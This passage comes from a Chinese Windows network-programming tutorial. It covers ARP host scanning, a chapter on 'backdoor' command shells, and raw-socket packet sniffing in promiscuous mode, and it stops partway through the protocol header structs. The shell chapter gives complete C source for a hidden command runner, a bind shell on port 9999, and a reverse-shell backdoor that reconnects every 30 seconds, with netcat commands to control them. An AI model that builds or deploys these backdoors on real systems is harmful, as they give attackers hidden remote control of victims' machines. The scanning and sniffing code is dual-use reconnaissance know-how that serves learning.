 - 如果一致的话，说明被查询的这个IP地址正是自己的IP地址，此时这个主机就会直接向主机A发送ARP响应数据包。
 - 主机A在获得了目标主机的MAC地址信息之后，会把这个MAC地址信息存储到自己的ARP缓存表中，以便以后再次使用。

ARP主机探测是一种在局域网中用来探测主机的技术。该技术基于 ARP 协议（地址解析协议）来实现，其原理是通过发送 ARP 查询报文，来获取目标主机的 MAC 地址，进而获取目标主机的 IP 地址。

ARP 主机探测的具体实现步骤如下：

 - 构造一个`ARP`查询报文，报文中的目标`IP`地址为需要探测的主机`IP`地址，源`IP`地址为探测主机的IP地址，源`MAC`地址为探测主机网卡的`MAC`地址。
 - 发送`ARP`查询报文。如果目标主机在线，且相应功能正常，它将返回一个`ARP`响应报文，其中包含目标主机的`MAC`地址。
 - 接收到`ARP`响应报文之后，分析报文，从中提取出目标主机的`MAC`地址和`IP`地址等信息。

在`Windows`系统下，我们可以调用`SendARP()`函数实现`ARP`探测，该函数用于发送`ARP`请求到指定的 `IP` 地址，以获取其 `MAC` 地址。该函数参数传入目标 `IP` 地址时能够返回对应 `MAC` 地址。

SendARP 函数原型如下：

```c
DWORD SendARP(
    IN IPAddr DestIP,             // 目标 IP 地址
    IN IPAddr SrcIP,              // 源 IP 地址（可以为 0）
    OUT PULONG pMacAddr,          // 接收目标 MAC 地址
    IN OUT PULONG PhyAddrLen      // 接收目标 MAC 地址的缓冲区大小，单位为字节
);
```

该函数的第一个参数为目标`IP`地址，第二个参数为本地主机`IP`地址（可以填 0），第三个参数为接收返回的目标 `MAC` 地址的指针，第四个参数为指向缓冲区大小的指针。

当调用 `SendARP()` 函数时，如果目标 `IP` 地址是在同一物理网络中，则返回目标 `IP` 地址对应的 `MAC` 地址，并且函数返回值为 `NO_ERROR`。如果目标 `IP` 地址无效，或者无法获得对应的 `MAC` 地址，则函数返回值为错误代码，应该根据错误代码来进行处理。

如下代码实现了扫描局域网中指定`ARP`主机地址的功能。代码主要使用了`SendARP()`函数来查询目标主机的`MAC`地址，并将结果输出。具体实现步骤如下：
```c
#include <stdio.h>
#include <winsock2.h>
#include <IPHlpApi.h>

#pragma comment (lib,"ws2_32.lib")  
#pragma comment (lib,"iphlpapi.lib")

// 扫描局域网中指定ARP主机地址
void ArpScan(char *LocalIP,char *TargetIP)
{
  ULONG localIP = inet_addr(LocalIP);
  ULONG targetIP = inet_addr(TargetIP);

  ULONG macBuf[2] = { 0 };
  ULONG macLen = 6;

  DWORD retValue = SendARP(targetIP, localIP, macBuf, &macLen);

  unsigned char *mac = (unsigned char*)macBuf;
  printf("IP: %-12s --> MAC: ", TargetIP);
  for (int x = 0; x < macLen; x++)
  {
    printf("%.2X", mac[x]);
    if (x != macLen - 1)
      printf("-");
  }
  printf("\n");
}

int main(int argc,char * argv[])
{
  for (int x = 1; x < 100; x++)
  {
    char target[32] = { 0 };
    sprintf(target, "192.168.1.%d", x);
    ArpScan("192.168.1.2", target);
  }
  system("pause");
  return 0;
}
```

根据端口探测中所使用的方法，实现多线程也很容易，如下代码实现了使用多线程方式扫描局域网内存活的主机。代码中使用 `SendARP()` 函数来探测目标主机是否存活，并使用多线程方式来加快扫描速度，同时使用临界区来控制多线程条件下的输出效果。

具体实现过程如下：

 - 定义了一个 `checkActive()` 函数，该函数使用 `SendARP()` 函数来判断目标主机是否存活。如果目标主机存活，则在屏幕上输出其 `IP` 和 `MAC` 地址。
 - 定义了一个 `threadProc()` 函数来作为多线程的回调函数。该函数接收一台主机的 `IP` 地址，并调用 `checkActive()` 函数来探测该主机是否在线。

 - 在 `main()` 函数中，定义开始和结束的 `IP` 地址，并使用 `for` 循环遍历这个 `IP` 地址段。在循环中，使用 `CreateThread()` 函数来创建多个线程，每个线程负责探测其中一台主机是否在线。
 - 在 `checkActive()` 函数中，多线程会涉及到在界面上的输出，为了控制多线程在输出上的次序，使用了 `EnterCriticalSection()` 和 `LeaveCriticalSection()` 函数来表示临界区，只有进入临界区的线程能够打印输出，其他线程需要等待进入临界区。

```c
#include <stdio.h>
#include <winsock2.h>
#include <iphlpapi.h>

#pragma comment(lib,"ws2_32.lib")
#pragma comment(lib,"iphlpapi.lib")

// 临界区,控制多线程打印顺序
CRITICAL_SECTION g_critical;

bool checkActive(in_addr ip)
{
  ULONG dstMac[2] = { 0 };
  memset(dstMac, 0xff, sizeof(dstMac));
  ULONG size = 6;
  HRESULT re = SendARP(ip.S_un.S_addr, 0, dstMac, &size);

  if (re == NO_ERROR && size == 6)
  {
    // 线程进入临界区，其他线程不能再进入，控制多线程在界面上的打印顺序
    EnterCriticalSection(&g_critical);

    printf("[+] 发现存活主机: %-15s ---> MAC :", inet_ntoa(ip));
    BYTE *bPhysAddr = (BYTE *)& dstMac;
    for (int i = 0; i < (int)size; i++)
    {
      // 如果是mac地址的最后一段，就输出换行
      if (i == (size - 1))
      {
        printf("%.2X\n", (int)bPhysAddr[i]);
      }
      else
      {
        // 否则没有到最后一段，依旧输出，但不换行
        printf("%.2X-", (int)bPhysAddr[i]);
      }
    }

    // 线程离开临界区，其他线程能够继续进入
    LeaveCriticalSection(&g_critical);
    return true;
  }
  else
  {
    return false;
  }
}

// 启动多线程
DWORD WINAPI threadProc(LPVOID lpThreadParameter)
{
  in_addr ip;
  ip.S_un.S_addr = (ULONG)lpThreadParameter;
  checkActive(ip);
  return 0;
}

int main(int argc, char *argv[])
{
  in_addr ip_start, ip_end;

  // 定义开始IP
  ip_start.S_un.S_addr = inet_addr("192.168.9.1");

  // 定义结束IP
  ip_end.S_un.S_addr = inet_addr("192.168.9.254");

  // 循环探测主机

  //初始临界区
  InitializeCriticalSection(&g_critical);

  for (in_addr ip = ip_start; ip.S_un.S_addr < ip_end.S_un.S_addr; ip.S_un.S_un_b.s_b4++)
  {
    printf("探测: %s \r", inet_ntoa(ip));
    CreateThread(NULL, 0, threadProc, (LPVOID)ip.S_un.S_addr, 0, 0);
  }

  system("pause");
  return 0;
}
```

编译并运行上述代码片段，则会探测`192.168.9.1`到`192.168.9.254`网段内存活的主机，并输出该主机的MAC信息，输出效果图如下所示；



## 第十七篇：重叠后门反弹技术

本章内容涉及使用`Windows Socket API`和`CMD`命令行工具实现本地`CMD`命令执行、无管道正向`CMD`和无管道反向`CMD`三种功能。执行本地`CMD`实现使用`CreateProcess`函数创建一个新的`CMD`进程，并将标准输入、输出和错误输出重定向到当前进程的标准输入、输出和错误输出。无管道正向`CMD`和无管道反向`CMD`使用`WSASocket`函数创建`TCP`套接字，并将`CMD`进程的标准输入、输出和错误输出重定向到套接字的句柄上，通过网络连接实现远程命令执行功能。

### 17.1 隐藏执行CMD

首先来实现一个`CMD`命令行运行功能，通过使用`CreatePipe`创建匿名管道，并使用`CreateProcess`函数创建一个新的`CMD`进程，然后将标准输入、输出和错误输出重定向到当前进程的标准输入、输出和错误输出。这样就可以通过当前进程的输入输出来执行`CMD`命令并获取命令输出结果。

CreatePipe 函数，用于创建一个匿名管道。匿名管道是一种用于进程间通信的机制，允许一个进程将输出数据传输给另一个进程。CreatePipe函数的原型如下：

```c
BOOL CreatePipe(
  PHANDLE               hReadPipe,
  PHANDLE               hWritePipe,
  LPSECURITY_ATTRIBUTES lpPipeAttributes,
  DWORD                 nSize
);
```
参数`hReadPipe`和`hWritePipe`是指向`HANDLE`类型的指针，用于接收创建的管道的读端和写端的句柄。参数`lpPipeAttributes`是一个指向`SECURITY_ATTRIBUTES`结构体的指针，用于设置管道的安全性。参数`nSize`是一个`DWORD`类型的值，用于指定管道的缓冲区大小，通常可以设置为0表示使用系统默认值。

创建匿名管道后，可以使用`ReadFile`函数从管道的读端读取数据，使用`WriteFile`函数将数据写入管道的写端。在使用完管道后，应使用`CloseHandle`函数关闭管道的句柄，以释放资源。

CreateProcess 函数可以创建一个新的进程，并为该进程分配内存空间、初始化环境变量、创建主线程等。其中，参数`lpApplicationName`用于指定需要执行的可执行文件名，参数`lpCommandLine`用于指定命令行参数。如果`lpApplicationName`参数为NULL，则系统会自动使用`lpCommandLine`参数指定的命令行来创建进程。

该函数原型如下：

```c
BOOL CreateProcess(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFO         lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

该函数可以创建包括控制台窗口的进程。如果需要使用`CreateProcess()`函数创建不带控制台窗口的进程，则需要在`dwCreationFlags`参数中指定`CREATE_NO_WINDOW`标志位。

在创建进程时，可以通过`STARTUPINFO`结构体设置进程的一些属性，例如标准输入、标准输出和标准错误输出的重定向，启动窗口的显示方式等。同时，`CreateProcess()`函数会返回一个`PROCESS_INFORMATION`结构体，其中包含新进程的句柄和ID等信息。

如下`RunCommand`函数所示，该函数传入一个字符串类型的命令参数，并返回一个字符串执行结果，在函数内部，使用 `CreatePipe()` 函数创建了一个匿名管道，并使用 `CreateProcess()` 函数启动了一个新的 `CMD` 进程并将其标准输出和错误输出重定向到管道的写入端。接着使用 `ReadFile()` 函数从管道的读取端读取输出数据，并将读取到的数据存储到一个缓冲区中。最后，它将缓冲区的内容拼接成一个完整的输出结果返回给调用者。

```c
// 以隐藏方式执行CMD命令
BOOL RunCommand(char* cmdStr, char* message)
{
  DWORD readByte = 0;
  
  // 执行命令行
  char command[1024] = { 0 };

  // 缓冲区
  char buf[8192] = { 0 };

  HANDLE hRead, hWrite;
  // 启动配置信息
  STARTUPINFO si;
  // 进程信息
  PROCESS_INFORMATION pi;
  // 管道安全属性
  SECURITY_ATTRIBUTES sa;

  // 拼接CMD命令
  sprintf(command, "cmd.exe /c %s", cmdStr);
  // printf("-- CMD 命令: [%s]n", command);

  // 配置管道安全属性
  sa.nLength = sizeof(sa);
  // 管道句柄可被继承
  sa.bInheritHandle = TRUE;
  sa.lpSecurityDescriptor = NULL;

  // 创建匿名管道，管道句柄是可被继承的
  if (!CreatePipe(&hRead, &hWrite, &sa, 1024))
  {
    // printf("管道创建失败 %xn", (unsigned int)GetLastError());
    return FALSE;
  }

  // 配置 cmd 启动信息
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);                                       // 获取兼容大小
  si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW; // 标准输出等使用额外的
  si.wShowWindow = SW_HIDE;                                 // 隐藏窗口启动
  si.hStdOutput = si.hStdError = hWrite;                    // 输出流和错误流指向管道写的一头

  // 创建子进程,运行命令,子进程是可继承的
  if (!CreateProcess(
    NULL,       // 不传程序路径, 使用命令行
    command,    // 命令行命令
    NULL,       // 不继承进程句柄(默认)
    NULL,       // 不继承线程句柄(默认)
    TRUE,       // 继承句柄
    0,          // 没有创建标志(默认)
    NULL,       // 使用默认环境变量
    NULL,       // 使用父进程的目录
    &si,        // STARTUPINFO 结构存储启动信息
    &pi))       // PROCESS_INFORMATION 保存启动后的进程相关信息
  {
    // printf("创建进程失败 %x \n", (unsigned int)GetLastError());
    CloseHandle(hRead);
    CloseHandle(hWrite);
    return FALSE;
  }
  CloseHandle(hWrite);

  /*
  管道的 write 端句柄已被 cmd 的输出流和错误流继承,即 cmd 输出时会把数据写入管道。
  我们通过读取管道的 read 端，就可以获得 cmd 的输出
  */
  while (ReadFile(hRead, buf, 8192, &readByte, NULL))
  {
    strcat(message, buf);
    ZeroMemory(buf, 8192);
  }

  //printf("-- [CMD] Message: [%s] Length:%d n", message, strlen(message) + 1);
  CloseHandle(hRead);
  return TRUE;
}
```

上述函数的调用非常容易，我们以执行`ipconfig`函数为例，调用案例为`RunCommand((char*)"ipconfig", szBuffer)`，函数执行命令`ipconfig`参数，并将返回值存储值`szBuffer`变量内，输出效果图如下所示；



### 17.2 无管道正向CMD

WSASocket 无管道正向CMD，使用`WSASocket`函数创建一个TCP套接字，并绑定到一个本地地址和端口上。然后使用`CreateProcess`函数创建一个新的`CMD`进程，并将标准输入、输出和错误输出重定向到套接字的句柄上。这样，客户端可以通过网络连接到这个套接字，发送`CMD`命令并获取命令输出结果。这种方式称为无管道正向`CMD`，因为`CMD`进程的输入输出是通过套接字而非管道进行的。

WSASocket 函数用于创建重叠IO套接字，重叠 `I/O（Overlapped I/O）`是一种异步 `I/O（Asynchronous I/O）`机制，它可以在执行 `I/O`操作时同时进行其他的操作或处理，提高了系统的并发性和效率。

在传统的同步 `I/O` 操作中，当一个线程请求进行 `I/O` 操作时，必须等待操作完成后才能进行其他任务的处理。然而，在网络应用场景下，因为 `I/O` 操作的延迟较高，线程等待` I/O` 完成的时间往往比较长，从而影响系统的资源利用率和性能。

与之相反，重叠 `I/O` 操作则不需要等待`I/O` 操作的完成，线程可以在 `I/O` 操作进行的同时执行其他任务，当 `I/O` 操作完成后，系统会通过事件通知机制通知线程进行相应的处理。这种机制可以提高系统的并发性和响应速度，使系统更加高效和灵活。

重叠 `I/O` 通常使用异步 `I/O` 完成端口（`IOCP`）机制实现。IOCP 是一种基于事件驱动的 `I/O` 模型，它提供了一种高效的异步 `I/O` 操作方式，不仅可以提高系统的并发性和响应速度，还可以减少系统资源的占用，从而达到提高系统性能的效果。

```c
SOCKET WSASocket(
  int                 af,
  int                 type,
  int                 protocol,
  LPWSAPROTOCOL_INFOA lpProtocolInfo,
  GROUP               g,
  DWORD               dwFlags
);
```

在调用 `WSASocket()` 函数创建 `socket` 套接字时，可以通过设置 `dwFlags` 参数的 `WSA_FLAG_OVERLAPPED` 标记来启用重叠 `I/O` 操作模式。启用重叠 `I/O` 操作模式后，应用程序就可以使用异步 `I/O` 操作进行数据的读取、发送、接收等操作，同时进行其他的计算和处理操作。

要使用重叠 `I/O` 操作机制，应用程序需要更改套接字的 `I/O` 模式。在传统的 `I/O` 操作模式中，应用程序通过同步的方式向套接字发送或接收数据，然后等待操作完成。而在重叠 `I/O` 操作模式中，应用程序使用非阻塞的方式进行数据读取和发送操作，不会阻塞线程和进程的执行，同时可以用事件通知机制来处理 `I/O` 操作的完成。

```c
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
#include <winsock2.h>
#include <stdio.h>

#pragma comment(lib,"Ws2_32")

int main(int argc, char *argv[])
{
  WSADATA ws;
  SOCKET listenFD;

  // 初始化WSA库
  WSAStartup(MAKEWORD(2, 2), &ws);

  // 启用WSASocket异步IO
  listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  
  // 监听本机9999端口
  struct sockaddr_in server;
  server.sin_family = AF_INET;
  server.sin_port = htons(9999);
  server.sin_addr.s_addr = ADDR_ANY;

  // 绑定套接字
  bind(listenFD, (sockaddr *)&server, sizeof(server));
  listen(listenFD, 2);

  // 等待客户端连接
  int iAddrSize = sizeof(server);
  SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize);

  STARTUPINFO si;
  ZeroMemory(&si, sizeof(si));

  // 设置隐藏命令行，并绑定输入输出错误流到套接字上
  si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
  si.wShowWindow = SW_HIDE;
  si.wShowWindow = SW_SHOWNORMAL;
  si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;

  // 创建CMD进程
  char cmdLine[] = "cmd.exe";
  PROCESS_INFORMATION ProcessInformation;
  CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
  return 0;
}
```

如上所示代码使用 `WSASocket()` 函数创建了一个 `TCP` 套接字，并使用 `bind()` 和 `listen()` 函数将套接字绑定到本地 `IP` 和端口，然后不断地接受客户端的连接请求并为每个客户端请求启动一个新的 `CMD` 进程。在 `CMD` 进程启动后，将其标准输入、输出和错误输出重定向到已连接的套接字上，这将使得客户端可以通过网络接收到 `CMD` 的输出结果。同时，在 `CMD` 进程退出后，服务器会等待一段时间然后关闭套接字并释放资源。

读者可自行编译上述代码片段，并运行起来此时程序会启用`9999`端口等待客户端的连接，客户端可使用`netcat`程序通过`nc -t 127.0.0.1 9999`的方式连接到目标进程内，此时读者可实现任意的命令执行；



### 17.3 无管道反向CMD

WSASocket无管道反向`CMD`，与无管道正向`CMD`相反，这种方式是在远程主机上创建一个`TCP`套接字，并绑定到一个本地地址和端口上。然后在本地主机上，使用`WSASocket`函数连接到远程主机的套接字，并将标准输入、输出和错误输出重定向到套接字的句柄上。这样，本地主机就可以通过网络连接到远程主机的套接字，发送`CMD`命令并获取命令输出结果。这种方式称为无管道反向`CMD`，因为`CMD`进程的输入输出是通过套接字而非管道进行的。

```C
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
#include <WinSock2.h>
#include <windows.h>

#pragma comment(lib,"ws2_32")

const CHAR* REMOTE_ADDR = "127.0.0.1";
const DWORD REMOTE_PORT = 9999;
const DWORD MAXSTR = 255;

void StartShell(SOCKET sSock)
{
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  CHAR cmdline[MAXSTR] = { 0 };

  // 绑定输入输出
  GetStartupInfo(&si);
  si.cb = sizeof(STARTUPINFO);
  si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)sSock;
  si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
  si.wShowWindow = SW_HIDE;

  // 取系统目录并拼接CMD.exe
  GetSystemDirectory(cmdline, MAXSTR);
  strcat_s(cmdline, MAXSTR, "\\cmd.exe");

  // 创建进程
  while (!CreateProcess(NULL, cmdline, NULL, NULL, TRUE, NULL, NULL, NULL, &si, &pi))
  {
    Sleep(1000);
  }
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  CloseHandle(pi.hThread);
  return;
}

int main(int argc, char *argv[])
{
  SOCKADDR_IN sin;
  WSADATA wsd;
  SOCKET sSock;
  int cRet;

  // 初始化套接字
  if (WSAStartup(MAKEWORD(2, 2), &wsd) == SOCKET_ERROR)
  {
    return 0;
  }

  while (1)
  {
    // 绑定异步套接字
    if ((sSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0)) == INVALID_SOCKET)
    {
      return 0;
    }

    // 设置端口信息等
    sin.sin_family = AF_INET;
    sin.sin_addr.S_un.S_addr = inet_addr(REMOTE_ADDR);
    sin.sin_port = htons(REMOTE_PORT);

    do
    {
      // 连接到远程主机
      cRet = connect(sSock, (sockaddr*)&sin, sizeof(sin));
    } while (cRet == SOCKET_ERROR);
    
    // 启动CMD后门
    StartShell(sSock);
    closesocket(sSock);
    Sleep(30000);
  }

  WSACleanup();
  return 0;
}
```

编译并运行上述程序，读者可自行打开`netcat`工具，并执行`nc -l -p 9999`开启本机侦听端口，此时后门程序会每隔`30000`毫秒自动连接一次服务端，当连接成功后则自动执行`StartShell`函数创建一个反弹后门，输出效果图如下所示；




## 第十八篇：操控网络数据包技术

网络数据包抓包是在计算机网络通信中常用的技术，可以帮助开发人员、网络管理员等识别网络问题和优化程序性能。在Windows操作系统中，实现网络数据包抓包可以使用`ioctlsocket`和`Npcap`库两种方式，前者是`Windows`系统中默认支持的抓包模式，在使用时无需进行任何配置即可实现功能，而后者则是一个非常流行的抓包`API`第三方库，本章将分别介绍两种抓包模式的实现原理，并实现对数据包的解析与操控。

### 18.1 原生套接字抓包

原生套接字抓包的实现原理依赖于`Windows`系统中提供的`ioctlsocket`函数，该函数可将指定的网卡设置为混杂模式，网卡混杂模式（`Promiscuous Mode`）是常用于计算机网络抓包的一种模式，也称为监听模式。在混杂模式下，网卡可以收到经过主机的所有数据包，而非只接收它所对应的`MAC`地址的数据包。

一般情况下，网卡会根据`MAC`地址过滤数据包，只有`MAC`地址与网卡所对应的设备的通信数据包才会被接收和处理，其他数据包则会被忽略。但在混杂模式下，网卡会接收经过它所连接的网络中所有的数据包，这些数据包可以是面向其他设备的通信数据包、广播数据包或多播数据包等。

混杂模式可以通过软件驱动程序或网卡硬件实现。启用混杂模式的主要用途之一是网络抓包分析，使用混杂模式可以捕获网络中所有的数据包，且不仅仅是它所连接的设备的通信数据包。因此，可以完整获取网络中的通信内容，便于进行网络监控、安全风险感知、漏洞检测等操作。

在`Windows`系统下，开启混杂模式可以使用`ioctlsocket()`函数，该函数原型定义如下：

```c
int ioctlsocket (
   SOCKET s,        //要操作的套接字
   long cmd,        //操作代码
   u_long *argp     //指向操作参数的指针
);
```

其中，参数说明如下：

 - s： 要执行`I/O`控制操作的套接字。
 - cmd： 操作代码，用于控制对套接字的特定操作。
 - argp： 与特定请求代码相关联的参数指针。此参数的具体含义取决于请求代码。

在该函数中，参数`cmd`指定了`I/O`控制操作代码，是一个整数值，用于控制对套接字的特定操作。`argp`是一个指向特定请求代码相关联的参数的指针，它的具体含义将取决于请求代码。函数返回值为`int`类型，表示函数执行结果的状态码，若函数执行成功，则其返回值为0，否则返回一个错误代码，并将错误原因存入`errno`变量中。

要实现抓包前提是需要先选中绑定到那个网卡，如下`InitAndSelectNetworkRawSocket`函数则是实现绑定套接字到特定网卡的实现流程，在代码中首先初始化并使用`gethostname`函数获取到当前主机的主机名，主机IP地址等基本信息，接着通过循环的方式将自身网卡信息追加到`g_HostIp`全局结构体内进行存储，通过使用一个交互式选择菜单让用户可以选中需要绑定的网卡名称，当用户选中后则下一步是绑定套接字，并通过调用`ioctlsocket`函数将网卡设置为混杂模式，至此网卡的绑定工作就算结束了，当读者需要操作时只需要对全局变量进行操作即可，而选择函数仅仅只是获取到网卡信息而已并没有实际的作用。

```c
#include <iostream>
#include <WinSock2.h>
#include <ws2tcpip.h>
#include <mstcpip.h>

#pragma comment(lib, "ws2_32.lib")

// 全局结构
typedef struct
{
  int iLen;
  char szIPArray[10][50];
}HOSTIP;

// 全局变量
SOCKET g_RawSocket = 0;
HOSTIP g_HostIp;

// -------------------------------------------------------
// 初始化与选择套接字
// -------------------------------------------------------
BOOL InitAndSelectNetworkRawSocket()
{
  // 设置套接字版本
  WSADATA wsaData = { 0 };
  if (0 != WSAStartup(MAKEWORD(2, 2), &wsaData))
  {
    return FALSE;
  }
  // 创建原始套接字
  // Windows无法抓取RawSocket MAC层的数据包,只能抓到IP层及以上的数据包
  g_RawSocket = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
  // g_RawSocket = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
  if (INVALID_SOCKET == g_RawSocket)
  {
    WSACleanup();
    return FALSE;
  }

  // 绑定到接口 获取本机名
  char szHostName[MAX_PATH] = { 0 };
  if (SOCKET_ERROR == ::gethostname(szHostName, MAX_PATH))
  {
    closesocket(g_RawSocket);
    WSACleanup();
    return FALSE;
  }

  // 根据本机名获取本机IP地址
  hostent* lpHostent = ::gethostbyname(szHostName);
  if (NULL == lpHostent)
  {
    closesocket(g_RawSocket);
    WSACleanup();
    return FALSE;
  }

  // IP地址转换并保存IP地址
  g_HostIp.iLen = 0;
  strcpy(g_HostIp.szIPArray[g_HostIp.iLen], "127.0.0.1");
  g_HostIp.iLen++;
  char* lpszHostIP = NULL;

  while (NULL != (lpHostent->h_addr_list[(g_HostIp.iLen - 1)]))
  {
    lpszHostIP = inet_ntoa(*(in_addr*)lpHostent->h_addr_list[(g_HostIp.iLen - 1)]);
    strcpy(g_HostIp.szIPArray[g_HostIp.iLen], lpszHostIP);
    g_HostIp.iLen++;
  }

  // 选择IP地址对应的网卡来嗅探
  printf("选择侦听网卡 \n\n");
  for (int i = 0; i < g_HostIp.iLen; i++)
  {
    printf("\t [*] 序号: %d \t IP地址: %s \n", i, g_HostIp.szIPArray[i]);
  }

  printf("\n 选择网卡序号: ");
  int iChoose = 0;
  scanf("%d", &iChoose);

  // 如果选择超出范围则直接终止
  if ((0 > iChoose) || (iChoose >= g_HostIp.iLen))
  {
    exit(0);
  }
  if ((0 <= iChoose) && (iChoose < g_HostIp.iLen))
  {
    lpszHostIP = g_HostIp.szIPArray[iChoose];
  }

  // 构造地址结构
  sockaddr_in SockAddr = { 0 };
  RtlZeroMemory(&SockAddr, sizeof(sockaddr_in));
  SockAddr.sin_addr.S_un.S_addr = inet_addr(lpszHostIP);
  SockAddr.sin_family = AF_INET;
  SockAddr.sin_port = htons(0);

  // 绑定套接字
  if (SOCKET_ERROR == bind(g_RawSocket, (sockaddr*)(&SockAddr), sizeof(sockaddr_in)))
  {
    closesocket(g_RawSocket);
    WSACleanup();
    return FALSE;
  }

  // 设置混杂模式 抓取所有经过网卡的数据包
  DWORD dwSetVal = 1;
  if (SOCKET_ERROR == ioctlsocket(g_RawSocket, SIO_RCVALL, &dwSetVal))
  {
    closesocket(g_RawSocket);
    WSACleanup();
    return FALSE;
  }
  return TRUE;
}

int main(int argc, char *argv[])
{
  // 选择网卡并设置网络为非阻塞模式
  BOOL SelectFlag = InitAndSelectNetworkRawSocket();
  if (SelectFlag == TRUE)
  {
    printf("[*] 网卡已被选中 套接字ID = %d | 套接字IP = %s \n", g_RawSocket,g_HostIp.szIPArray);
  }

  system("pause");
  return 0;
}
```

读者可自行编译并以管理员身份运行上述代码片段，当读者运行后会看到如下图所示的代码片段，此处笔者就选择三号网卡进行绑定操作，当绑定后此时套接字ID对应的则是特定的网卡，后续的操作均可针对此套接字ID进行，如下图所示；



当读者有了设置混杂模式的功能则下一步就是抓包了，抓包的实现很简单，只需要在开启了非阻塞混杂模式的网卡上使用`recvfrom`函数循环进行监听即可，当有数据包产生时则直接输出`iRecvBytes`中所存储的数据即可，这段代码的实现如下所示；

```c
int main(int argc, char *argv[])
{
  // 选择网卡并设置网络为非阻塞模式
  BOOL init_flag = InitAndSelectNetworkRawSocket();
  if (init_flag == FALSE)
  {
    return 0;
  }

  sockaddr_in RecvAddr = { 0 };
  int iRecvBytes = 0;
  int iRecvAddrLen = sizeof(sockaddr_in);

  // 定义缓冲区长度
  DWORD dwBufSize = 12000;
  BYTE* lpRecvBuf = new BYTE[dwBufSize];

  // 循环接收接收
  while (1)
  {
    RtlZeroMemory(&RecvAddr, iRecvAddrLen);
    iRecvBytes = recvfrom(g_RawSocket, (char*)lpRecvBuf, dwBufSize, 0, (sockaddr*)(&RecvAddr), &iRecvAddrLen);
    if (0 < iRecvBytes)
    {
      // 接收数据包并输出
      printf("[接收数据包] %s \n", lpRecvBuf);
    }
  }

  // 释放内存
  delete[]lpRecvBuf;
  lpRecvBuf = NULL;

  // 关闭套接字
  Sleep(500);
  closesocket(g_RawSocket);
  WSACleanup();
  return 0;
}
```

当读者选择网卡后即可看到如下所示的输出结果，这些数据则是经过网卡`192.168.9.125`的所有数据，由于此处没有解码和区分数据包类型所以显示出的字符串并没有任何意义，如下图所示；



接下来我们就需要根据不同的数据包类型对这些数据进行解包操作，在解包之前我们需要先来定义几个关键的数据包结构体，如下代码中`ether_header`代表的是以太网包头结构，该结构占用`14`个字节的存储空间，`arp_header`则是`ARP`结构体，该结构体占用`28`个字节，ARK结构中还存在一个`ARK`报文结构，该结构占用`42`字节的内存长度，接着分别顶一个`ipv4_header`，`ipv6_header`，`tcp_header`，`udp_header`等结构体，这些结构体的完整定义如下所示；

```c
#pragma pack(1)

/*以太网帧头格式结构体 14个字节*/
typedef struct ether_header
{
    unsigned char ether_dhost[6];  // 目的MAC地址
    unsigned char ether_shost[6];  // 源MAC地址
    unsigned short ether_type;     // eh_type 的值需要考察上一层的协议，如果为ip则为0x0800
}ETHERHEADER, * PETHERHEADER;

/*以ARP字段结构体 28个字节*/
typedef struct arp_header
{
    unsigned short arp_hrd;
    unsigned short arp_pro;
    unsigned char arp_hln;
    unsigned char arp_pln;
    unsigned short arp_op;
    unsigned char arp_sourha[6];
    unsigned long arp_sourpa;
    unsigned char arp_destha[6];
    unsigned long arp_destpa;
}ARPHEADER, * PARPHEADER;

/*ARP报文结构体 42个字节*/
typedef struct arp_packet
{
    ETHERHEADER etherHeader;
    ARPHEADER   arpHeader;
}ARPPACKET, * PARPPACKET;

/*IPv4报头结构体 20个字节*/
typedef struct ipv4_header
{
    unsigned char ipv4_ver_hl;        // Version(4 bits) + Internet Header Length(4 bits)长度按4字节对齐
    unsigned char ipv4_stype;         // 服务类型
    unsigned short ipv4_plen;         // 总长度（包含IP数据头，TCP数据头以及数据）
    unsigned short ipv4_pidentify;    // ID定义单独IP
    unsigned short ipv4_flag_offset;  // 标志位偏移量
    unsigned char ipv4_ttl;           // 生存时间
    unsigned char ipv4_pro;           // 协议类型
    unsigned short ipv4_crc;          // 校验和
    unsigned long  ipv4_sourpa;       // 源IP地址
    unsigned long  ipv4_destpa;       // 目的IP地址
}IPV4HEADER, * PIPV4HEADER;

/*IPv6报头结构体 40个字节*/
typedef struct ipv6_header
{
    unsigned char ipv6_ver_hl;
    unsigned char ipv6_priority;
    unsigned short ipv6_lable;
    unsigned short ipv6_plen;
    unsigned char  ipv6_nextheader;
    unsigned char  ipv6_limits;
    unsigned char ipv6_sourpa[16];
    unsigned char ipv6_destpa[16];
}IPV6HEADER, * PIPV6HEADER;

/*TCP报头结构体 20个字节*/
typedef struct tcp_header
{
    unsigned short tcp_sourport;     // 源端口
    unsigned short tcp_destport;     // 目的端口
    unsigned long  tcp_seqnu;        // 序列号
    unsigned long  tcp_acknu;        // 确认号
    unsigned char  tcp_hlen;         // 4位首部长度
    unsigned char  tcp_reserved;     // 标志位
    unsigned short tcp_window;       // 窗口大小
    unsigned short tcp_chksum;       // 检验和
    unsigned short tcp_urgpoint;     // 紧急指针
}TCPHEADER, * PTCPHEADER;

/*UDP报头结构体 8个字节*/
typedef struct udp_header
{
    unsigned short udp_sourport;   // 源端口 
    unsigned short udp_destport;   // 目的端口
    unsigned short udp_hlen;       // 长度
    unsigned short udp_crc;        // 校验和
